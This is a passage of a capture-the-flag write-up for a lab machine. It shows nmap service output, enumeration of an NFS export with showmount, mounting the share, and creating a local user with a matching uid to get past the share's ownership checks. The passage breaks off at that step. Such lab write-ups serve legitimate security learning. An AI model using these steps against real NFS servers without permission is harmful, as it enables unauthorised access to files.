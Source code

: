 ```terminal
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      34495/udp6  mountd
|   100005  1,2,3      43525/tcp   mountd
|   100005  1,2,3      58744/udp   mountd
|   100005  1,2,3      60780/tcp6  mountd
|   100021  1,3,4      34527/udp6  nlockmgr
|   100021  1,3,4      37489/tcp6  nlockmgr
|   100021  1,3,4      38143/tcp   nlockmgr
|   100021  1,3,4      48050/udp   nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
2049/tcp open  nfs     2-4 (RPC #100003)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We found 5 open ports:

- 21 is FTP
- 22 is SSH
- 80 is Apache web server
- 111 is rpcbind
- 2049 is NFS

### NFS

Let's start with enumerating NFS and see if there are any shares:

```bash
showmount -e 10.10.228.30

Export list for 10.10.228.30:
/mnt/share *
```

We found the share `/mnt/share`. Let's mount it using the following command:

```bash
sudo mount -t nfs 10.10.228.30:/mnt/share /mnt/ctf -nolock
```

![Mount the share](1.png)

We managed to mount the share in our machines but couldn't access it.

When we run `ls -l` we see that the owner of the share has the uid `1003` but doesn't show the name.

Let's create a new user with the uid of `1003` using the following command:

```bash
sudo useradd dummy -u 1003
```
